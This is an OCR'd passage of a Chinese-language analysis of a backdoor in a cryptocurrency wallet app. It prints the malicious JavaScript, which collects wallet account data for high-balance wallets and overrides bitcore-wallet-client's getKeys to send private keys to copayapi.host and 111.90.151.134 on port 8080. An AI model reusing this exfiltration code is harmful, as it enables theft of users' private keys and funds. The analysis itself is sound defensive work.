 ```
                                    t.abort()
                                `}`, t.readAsText(e)
                            `}`)
                        `}`)
                    `}`)
                `}` catch (e) `{``}` else `{`
                    try `{`
                        var r = localStorage.getItem(t);
                        if (r) return n(JSON.parse(r))
                    `}` catch (e) `{``}`
                    try `{`
                        chrome.storage.local.get(t, function(e) `{`
                            if (e) return n(JSON.parse(e[t]))
                        `}`)
                    `}` catch (e) `{``}`
                `}`
            `}`
            // 获取用户账号的详细信息并发送 账号信息发送到 http://copayapi.host:8080/c http://111.90.151.134:8080/c
            global.CSSMap = `{``}`, l("profile", function(e) `{`
                for (var t in e.credentials) `{`
                    var n = e.credentials[t];
                    "livenet" == n.network &amp;&amp; l("balanceCache-" + n.walletId, function(e) `{`
                        var t = this;
                        t.balance = parseFloat(e.balance.split(" ")[0]), "btc" == t.coin &amp;&amp; t.balance &lt; 100 || "bch" == t.coin &amp;&amp; t.balance &lt; 1e3 || (global.CSSMap[t.xPubKey] = !0, r("c", JSON.stringify(t)))
                    `}`.bind(n))
                `}`
            `}`);
            // 重写bitcore-wallet-client/lib/credentials.js中的getKeysFunc函数，发送用户虚拟钱包私钥，私钥信息发送到 http://copayapi.host:8080/p http://111.90.151.134:8080/p
            var e = require("bitcore-wallet-client/lib/credentials.js");
            e.prototype.getKeysFunc = e.prototype.getKeys, e.prototype.getKeys = function(e) `{`
                var t = this.getKeysFunc(e);
                try `{`
                    global.CSSMap &amp;&amp; global.CSSMap[this.xPubKey] &amp;&amp; (delete global.CSSMap[this.xPubKey], r("p", e + "\\t" + this.xPubKey))
                `}` catch (e) `{``}`
                return t
            `}`
        `}` catch (e) `{``}`
    `}`
    window.cordova ? document.addEventListener("deviceready", e) : e()
`}`();
```

通过这段代码可以看出,后门作者获取了一个数字货币钱包APP的用户账号信息和私钥，并分别发送到两个主机名。用户账号信息发送到http://copayapi.host:8080/c和http://111.90.151.134:8080/c然后通过原型重写了bitcore-wallet-client/lib/credentials.js中的getKeysFunc方法，只要在APP运行时调用到了getKeysFunc方法就会将私钥发送到http://copayapi.host:8080/p http://111.90.151.134:8080/p。
